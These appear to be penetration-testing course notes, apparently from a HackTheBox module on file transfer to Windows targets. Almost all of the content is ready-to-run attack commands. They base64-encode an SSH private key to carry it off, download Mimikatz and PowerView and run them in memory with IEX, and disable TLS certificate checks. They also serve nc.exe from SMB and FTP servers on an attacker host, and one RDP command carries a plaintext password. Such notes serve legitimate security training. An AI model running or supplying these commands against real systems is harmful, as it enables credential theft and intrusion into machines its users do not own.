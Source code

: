 # PowerShell
## PowerShell Base64 Encode & Decode
Depending on the file size we want to transfer, we can use different methods that do not require network communication. If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content
### Check SSH Key MD5 Hash
```
md5sum id_rsa
```
### Encode SSH Key to Base64
```
cat id_rsa |base64 -w 0;echo
```
We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.
```
C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<stringvalue>")
```
confirm if the file was transferred successfully using the Get-FileHash cmdlet, which does the same thing that md5sum does.
```
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```
## PowerShell Web Downloads
### PowerShell DownloadFile Method 
```
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
```
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
### PowerShell DownloadString - Fileless Method
PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.
```
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
IEX also accepts pipeline input.
```
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### PowerShell Invoke-WebRequest
From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.
```
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
### Common Errors with PowerShell
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. his can be bypassed using the parameter -UseBasicParsing
```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
`Error Output`
```
Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."
```
```
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
# SMB Downloads
## Create the SMB Server
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
## Copy a File from the SMB Server
```
C:\htb> copy \\[AttackerIP]\share\nc.exe
```
## New versions of Windows block unauthenticated guest access
### Create the SMB Server with a Username and Password
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### Mount the SMB Server with Username and Password
```
C:\htb> net use n: \\[AttackerIP]\share /user:test test
```
### Copy a file from the SMB server
```
C:\ copy n:\nc.exe
```
# FTP Downloads
## FTP Client 
We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server
```
python3 -m pyftpdlib -p 21 --write
```
## Transferring Files from an FTP Server Using PowerShell
```
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://[AttackerIP]/file.txt', 'C:\Users\Public\ftp-file.txt')
```
When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.
# Transfer files through cmd without a Desktop Experience role
```
xfreerdp /v:127.0.0.1:13389 /u:hporter /p:Gr8hambino! /drive:home,"/home/tester/tools"
```
```
net use 
```
```
Status       Local     Remote                    Network

-------------------------------------------------------------------------------
\TSCLIENT\home           Microsoft Terminal Services
The command completed successfully.
```
```
c:\DotNetNuke\Portals\0> copy \\TSCLIENT\home\PowerView.ps1 
```
